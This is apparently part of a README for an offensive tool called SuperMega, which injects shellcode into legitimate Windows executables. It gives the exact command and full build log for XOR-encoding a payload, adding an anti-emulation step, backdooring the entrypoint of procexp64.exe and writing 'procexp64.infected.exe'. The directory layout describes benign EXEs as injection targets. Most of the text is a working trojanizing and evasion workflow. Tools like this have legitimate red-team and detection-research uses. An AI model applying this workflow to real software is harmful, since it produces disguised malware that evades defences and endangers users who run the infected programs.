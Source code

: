 To inject shellcode `messagebox.bin` into injectable `procexp64.exe` with carrier `alloc_rw_rx` and decoder `xor_1`, where: 
* shellcode `messagebox.bin`: `data/binary/shellcodes/messagebox.bin`
* injectable `procexp64.exe`: `data/binary/injectables/procexp64.exe`
* carrier `alloc_rw_rx`: `data/source/carrier/alloc_rw_rx/template.c`
* decoder `xor_1`: `data/source/decoder/xor_1.c`

```
> python.exe supermega.py --shellcode messagebox.bin --inject procexp64.exe --carrier alloc_rw_rx --decoder xor_1 
(helper.py       ) Write project to: projects/commandline/project.pickle
(project.py      ) -[ Cleanup project: commandline
(payload.py      ) -[ Payload: data/binary/shellcodes/messagebox.bin
(payload.py      )     Size: 433 bytes
(templater.py    ) -[ Carrier create Template: projects/commandline/main.c
(templater.py    )     Carrier: alloc_rw_rx
(templater.py    )     Carrier: Code into: .text
(templater.py    )     Carrier: Decoder: xor_1
(templater.py    )     Carrier: Invoker: backdoor Entrypoint
(templater.py    )     Carrier AntiEmulation: sirallocalot
(templater.py    )     Carrier Guardrail: none
(templater.py    )     Carrier Decoy: none
(compiler.py     ) -[ Carrier: Compile C to ASM
(compiler.py     )     Carrier: projects/commandline/main.c -> projects/commandline/main.asm
(helper.py       )    > Run process: cl.exe /c /FA /GS- /Faprojects/commandline/ projects/commandline/main.c
(assembler.py    ) -[ Carrier: ASM to EXE
(assembler.py    )     Carrier: projects/commandline/main.asm -> projects/commandline/main.exe
(helper.py       )    > Run process: ml64.exe projects/commandline/main.asm /link /OUT:projects/commandline/main.exe /entry:AlignRSP
(assembler.py    )     Carrier Size: 576
(injector.py     ) -[ Injecting Carrier
(injector.py     )     Injectable: data/binary/injectables/procexp64.exe -> projects/commandline/procexp64.infected.exe
(injector.py     )     Checking if IAT entries required by carrier are available
(injector.py     )     IAT entries missing: 0
(injector.py     )     Inject: Write Carrier to 0x71C43 (0x71043)
(injector.py     )     Backdoor function at entrypoint (0xE1D78)
(injector.py     )     Inject Carrier data into injectable .rdata/.text
(injector.py     )     Patch Carrier code to reference the injected data
(injector.py     ) -[ Write to file: projects/commandline/procexp64.infected.exe

> C:\Users\dobin\Repos\SuperMega>.\projects\commandline\procexp64.infected.exe
```


## Directories

Input: 
* `data/binary/shellcodes`: Input: Shellcodes we want to use as input (payload). .bin
* `data/binary/injectables/`: Input: Nonmalicious EXE files we inject into. .exe

Output:
* `projects/<projectname>`: output: Project directory with generated files, including infected exe
* `projects/default`: output: Project directory with all files from web
* `projects/commandline`: output: Project directory with all files from commandline

